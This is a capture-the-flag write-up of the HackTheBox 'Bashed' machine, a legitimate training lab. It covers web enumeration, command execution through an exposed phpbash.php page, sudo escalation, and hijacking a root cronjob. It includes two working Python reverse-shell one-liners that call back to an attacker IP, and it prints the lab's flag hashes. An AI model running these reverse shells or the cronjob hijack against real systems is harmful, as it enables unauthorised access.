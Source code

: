 ```yaml
---
title: HackTheBox - Bashed
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-21
tags: [linux-priv-esc/cronjob ]
img_path: /_posts/Writeups/HackTheBox/Linux/Bashed/images/
image:
  path: /_posts/Writeups/HackTheBox/Linux/Bashed/images/Pasted%20image%2020220820050244.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
This machine begins w/ a web directory enumeration, finding a directory `/dev` directory containing a file `phpbash.php` that has code execution functionality, allowing us to obtain a low-privilege/`www-data` shell.

User `www-data` has a sudoers entry that allows `www-data` to run any command as `scriptmanager`, allowing us to privilege escalate to `scriptmanager`

Further enumeration of the system is done w/ `linpeas.sh`, discovering a directory `/scripts` that contains a python script that we have `RWX` access to. Also, within last 5 minutes a file `/scripts/test.txt` has been modified, suggesting that there is could be a cronjob running, `pspy` is used to confirm that a cronjob is running that executes all python script in `/scripts` directory every minute as root, and by creating a reverse shell python script in `/scripts` directory, it allowed us to privilege escalate to `root`.

---

| Column       | Details |
| ------------ | ------- |
| Box Name     | Bashed  |
| IP           | 10.10.10.68        |
| Points       | -       |
| Difficulty   | Easy    |
| Creator      |  [Arrexel](https://www.hackthebox.com/home/users/profile/2904)       |
| Release Date |   09-Sep-2022      |


# Recon

## TCP/80 (HTTP)
### FFUF
```
dev                     [Status: 301, Size: 306, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10]
php                     [Status: 301, Size: 306, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10]
:: Progress: [4615/4615] :: Job [1/1] :: 1102 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
- `/dev`


# Initial Foothold

## TCP/80 (HTTP) - Remote Code Execution

1. Proceed to `/dev`, `phpbash.php` found
2. `phpbash.php` allows us to execute commands
	![]({{ page.img_path }}Pasted%20image%2020220821004357.png)
3. Invoke a reverse shell
	```
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```
4. `www-data`/low-privilege shell obtained
	![]({{ page.img_path }}Pasted%20image%2020220821004455.png)
5. User Flag
	```
	61ecdd09b54362a6470b4fc3ccee53ce
	```
	![]({{ page.img_path }}Pasted%20image%2020220821004539.png)

# Privilege Escalation

## Script Manager - Via Sudo
1. Check sudo access for `www-data`
	```
	www-data@bashed:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on bashed:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on bashed:
	    (scriptmanager : scriptmanager) NOPASSWD: ALL
	
	```
	- Able to run any command as `scriptmanager`
2. Obtain `scriptmanager` shell
	```
	sudo -u scriptmanager /bin/bash
	```
![]({{ page.img_path }}Pasted%20image%2020220821004942.png)


## Root - Via Cronjob
1. Ran linpeas, found something interesting
	![]({{ page.img_path }}Pasted%20image%2020220821010328.png)
	- `/scripts` - we have `write` access
	- `/scripts/test.txt` - modified within last 5minutes
		- Cronjob?
	- `/scripts/test.py` - python script that is writable
2. Sniff processes w/ `pspy`
	![]({{ page.img_path }}Pasted%20image%2020220821010538.png)
	- `UID 0` - `root`
	- `/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done ` - is executed every minute as `root`
	- all python scripts in `/scripts` are executed every minute
3. Create python reverse shell script
	```
	scriptmanager@bashed:/scripts$ nano /scripts/exploit.py
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
	```
4. Start listener and wait for cronjob to execute to obtain `root` shell
	![]({{ page.img_path }}Pasted%20image%2020220821010927.png)
5. Root Flag
	```
	ea8a2ef2a3c75833cd8345e0c866a980
	```
	![]({{ page.img_path }}Pasted%20image%2020220821011004.png)

6. View cronjob executed by `root`

	```
	# crontab -l
	* * * * * cd /scripts; for f in *.py; do python "$f"; done
	```
